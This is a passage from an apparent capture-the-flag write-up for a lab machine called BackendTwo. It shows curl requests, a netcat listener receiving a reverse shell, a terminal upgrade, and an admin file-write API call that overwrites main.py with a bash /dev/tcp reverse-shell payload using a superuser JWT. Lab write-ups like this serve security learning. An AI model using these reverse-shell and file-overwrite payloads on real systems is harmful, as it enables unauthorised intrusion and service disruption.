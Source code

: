 

I'll trigger it, and it hangs:



    0xdf@hacky$ curl http://10.10.11.162/api/v1/user/-223



At `nc`, there's a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.162 58622
    bash: cannot set terminal process group (1687): Inappropriate ioctl for device
    bash: no job control in this shell
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.

    htb@BackendTwo:~$



I'll do the standard shell upgrade:



    htb@BackendTwo:~$ script /dev/null -c bash
    Script started, file is /dev/null                                   
    htb@BackendTwo:~$ ^Z                                                
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443                                                        
                reset                                                   
    reset: unknown terminal type unknown
    Terminal type? screen                                               
    htb@BackendTwo:~$



#### Overwrite Server

It's much less stealthy and bad technique, but technically I could just
overwrite `main.py` (or any file) and have that execute. It will bring
down the server for everyone. My new file is just:



    import os; os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'")



Still, it works:



    oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/$(echo -n "/home/htb/app/main.py" | base64) -H 'Content-Type: application/json' -d '{"file": "import os; os.system(\"bash -c '\''bash -i >& /dev/tcp/10.10.14.6/443 0>&1'\''\")"}' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
    {"result":"success"}

